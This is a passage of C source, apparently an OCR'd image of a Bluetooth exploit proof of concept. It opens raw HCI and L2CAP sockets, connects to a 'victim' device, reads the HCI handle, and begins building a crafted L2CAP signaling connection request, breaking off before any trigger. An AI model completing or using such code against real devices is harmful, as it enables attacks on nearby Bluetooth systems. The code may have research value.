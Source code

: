 ```c
  hci_filter_all_events(&flt);
  if (setsockopt(hci_socket, SOL_HCI, HCI_FILTER, &flt, sizeof(flt)) < 0) {
    perror("setsockopt(HCI_FILTER)");
    return 1;
  }

  int opt = 1;
  if (setsockopt(hci_socket, SOL_HCI, HCI_DATA_DIR, &opt, sizeof(opt)) < 0) {
    perror("setsockopt(HCI_DATA_DIR)");
    return 1;
  }

  printf("[*] Connecting to victim...\n");

  struct sockaddr_l2 laddr = {0};
  laddr.l2_family = AF_BLUETOOTH;
  laddr.l2_bdaddr_type = BDADDR_BREDR;
  laddr.l2_bdaddr = di.bdaddr;

  struct sockaddr_l2 raddr = {0};
  raddr.l2_family = AF_BLUETOOTH;
  raddr.l2_bdaddr_type = BDADDR_BREDR;
  raddr.l2_bdaddr = dst_addr;

  int l2_sock;
  printf("[*] socket\n");
  if ((l2_sock = socket(PF_BLUETOOTH, SOCK_RAW, BTPROTO_L2CAP)) < 0) {
    perror("socket");
    return 1;
  }

  printf("[*] bind\n");
  if (bind(l2_sock, (struct sockaddr *)&laddr, sizeof(laddr)) < 0) {
    perror("bind");
    return 1;
  }

  printf("[*] connect\n");
  if (connect(l2_sock, (struct sockaddr *)&raddr, sizeof(raddr)) < 0) {
    perror("connect");
    return 1;
  }

  printf("[*] getsockopt\n");
  struct l2cap_conninfo l2_conninfo;
  socklen_t l2_conninfolen = sizeof(l2_conninfo);
  if (getsockopt(l2_sock, SOL_L2CAP, L2CAP_CONNINFO, &l2_conninfo, &l2_conninfolen) < 0) {
    perror("getsockopt");
    return 1;
  }

  uint16_t hci_handle = l2_conninfo.hci_handle;
  printf("[+] HCI handle: %x\n", hci_handle);

  struct {
    l2cap_hdr hdr;
    l2cap_cmd_hdr cmd_hdr;
    l2cap_conn_req req;
  } packet = {0};
  packet.hdr.len = htobs(sizeof(packet) - L2CAP_HDR_SIZE);
  packet.hdr.cid = htobs(L2CAP_CID_SIGNALING);
  packet.cmd_hdr.code = L2CAP_CONN_REQ;
  packet.cmd_hdr.ident = 0x1;
```